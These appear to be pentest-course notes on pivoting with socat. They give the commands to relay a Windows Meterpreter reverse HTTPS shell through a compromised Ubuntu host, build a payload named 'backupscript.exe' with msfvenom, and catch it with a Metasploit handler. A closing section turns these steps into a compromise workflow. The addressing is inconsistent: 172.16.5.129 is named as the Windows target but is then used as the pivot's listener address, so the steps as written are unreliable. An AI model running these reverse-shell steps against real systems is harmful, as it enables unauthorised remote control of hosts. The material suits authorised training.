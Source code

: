 **2. Scenario Setup**:
- **Attack Host**: 10.10.14.18, running a Metasploit listener on port 80.
- **Pivot Host**: Ubuntu server (10.129.202.64), running `socat` to redirect traffic.
- **Target**: Windows host (172.16.5.129) in the pivot’s internal network.
- **Goal**: Execute a payload on the Windows host to connect back to the pivot host’s `socat` listener, which redirects the connection to the attack host, establishing a Meterpreter session.

**3. Steps to Execute Socat Redirection**:
- **Step 1: Start Socat on Pivot Host**:
  - Command: `socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80`
  - Configures the pivot host to listen on port 8080 and forward traffic to 10.10.14.18:80.
  - The `fork` option allows handling multiple connections.
- **Step 2: Generate Windows Payload**:
  - Command:
    - `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe > backupscript.exe`
    - Creates a reverse HTTPS Meterpreter payload (`backupscript.exe`) targeting the pivot host (172.16.5.129:8080).
    - Payload size: 743 bytes, EXE file: 7168 bytes.
- **Step 3: Configure Metasploit Multi/Handler**:
  - Commands:
    ```
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    msf6 exploit(multi/handler) > set lport 80
    msf6 exploit(multi/handler) > run
    ```
    - Starts an HTTPS reverse handler on 0.0.0.0:80 to catch the Meterpreter session.
- **Step 4: Transfer and Execute Payload**:
  - Transfer `backupscript.exe` to the Windows host (e.g., via SMB, HTTP, or previous pivot techniques).
  - Execute the payload on the Windows host.
- **Step 5: Establish Meterpreter Session**:
  - The Windows payload connects to 172.16.5.129:8080 (pivot host’s `socat` listener).
  - `socat` redirects the connection to 10.10.14.18:80 (attack host’s listener).
  - Result: Meterpreter session established, with traffic originating from the pivot host (10.129.202.64).
- **Key Insight**: `socat` acts as a relay, making the attack host’s listener accessible to the Windows target via the pivot host.

**4. Practical Application**:
- **Payload Delivery**: Use `socat` to redirect reverse shell connections when SSH or Meterpreter tunneling is unavailable or undesirable.
- **Network Restrictions**: Effective in scenarios where the Windows target can only reach the pivot host (e.g., due to NAT or firewall rules).
- **Example Workflow**:
  - Compromise the Ubuntu pivot host and install `socat`.
  - Start `socat` to redirect traffic from a pivot host port (8080) to the attack host’s listener (80).
  - Deploy and execute a reverse shell payload on the Windows target, targeting the pivot host’s `socat` port.
  - Receive the Meterpreter session on the attack host via the redirected connection.
